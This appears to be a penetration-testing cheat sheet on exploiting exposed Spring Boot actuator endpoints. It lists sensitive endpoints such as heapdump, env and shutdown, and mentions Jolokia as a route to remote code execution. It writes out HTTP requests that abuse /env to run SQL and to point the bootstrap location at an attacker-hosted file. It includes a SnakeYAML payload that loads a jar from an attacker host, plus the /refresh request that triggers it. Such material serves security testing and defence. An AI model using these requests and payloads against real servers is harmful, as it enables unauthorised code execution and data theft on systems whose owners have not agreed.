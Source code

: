 Spring Boot
===========


## Spring Boot Actuators API

The Spring Boot Framework includes a bunch of features called `actuators` to monitor apps.
When the application is running, it registers endpoints that are accessible without
authentication.

Here are some `actuators`:

 - `/dump`: displays a dump of threads (including a stack trace)
 - `/trace`: displays the last several HTTP messages (which could include session identifiers)
 - `/logfile`: outputs the contents of the log file
 - `/shutdown`: shuts the application down
 - `/mappings`: shows all of the MVC controller mappings
 - `/env`: provides access to the configuration environment
 - `/restart`: restarts the application


For instance, it's possible to [dump the heap memory](https://docs.spring.io/spring-boot/docs/current-SNAPSHOT/actuator-api/html/#heapdump)
of the server:

```
https://<host>/path/actuator/heapdump
```

A brute-force list can be found here: [spring_boot.txt](/assets/spring_boot.txt)


## Jolokia

An other Sping Boot endpoint is `jolokia`. It allow the user to perform the same
actions as the JMX.

```
https://<host>/path/jolokia/list
```

It can be used to perform remote code execution.


## Env

The `/env` endpoint allows to update the Spring Boot environmental properties.
It's possible to execute SQL commands:

```
POST /env HTTP/1.1
Host: <host>
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

spring.datasource.tomcat.validationQuery=<sql cmd>
```

Also, it's possible to update the `env` to execute code with the properties:
`spring.cloud.bootstrap.location` which is used to load external configuration file:

```
POST /env HTTP/1.1
Host: <host>
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

spring.cloud.bootstrap.location=http://<attacker>/malicious-config-file.yml
```

The malicious configuration file can be:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://<attacker>/malicious.jar"]
  ]]
]
```

You need to refresh the configuration:
```
POST /refresh HTTP/1.1
Host: <host>
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
